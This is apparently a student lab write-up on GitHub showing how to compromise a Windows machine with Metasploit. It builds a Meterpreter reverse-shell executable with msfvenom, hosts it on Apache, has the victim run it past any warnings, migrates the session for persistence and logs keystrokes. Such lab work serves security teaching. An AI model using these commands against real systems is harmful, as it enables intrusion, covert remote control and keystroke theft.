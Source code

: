 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM :

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
OUTPUT:
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/73df9249-0425-4b20-932d-4837c6ae45c2)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

OUTPUT
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/127368e4-5c79-49a6-b33d-1e7f62f5ed8c)
copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/29cc407e-6567-4804-82c2-92474dfc0270)
Start apache server sudo systemctl apache2 start
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/eb1001b2-1904-470f-8f82-42fa0414c798)
Check the status of apache2
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/4dcd6005-ffe3-4c68-915a-d8640d85c571)
Invoke msfconsole:

OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/5a15a7d3-8d84-4227-897d-4a65ee7e93ae)
set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/2ba90ceb-8360-46e4-8285-cb5cc8f7adf9)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/a832e813-c1a5-4501-a0ad-9349c121a387)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/04aaf57d-93d3-4865-8ab2-6604dcce934f)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/842d9ca8-2282-4429-8190-1e676bf4c94d)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name. 
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/4698d960-28c5-4374-9439-03393a5e683e)
keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/760536e0-87d5-45db-91fa-0e802a693eb2)















## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

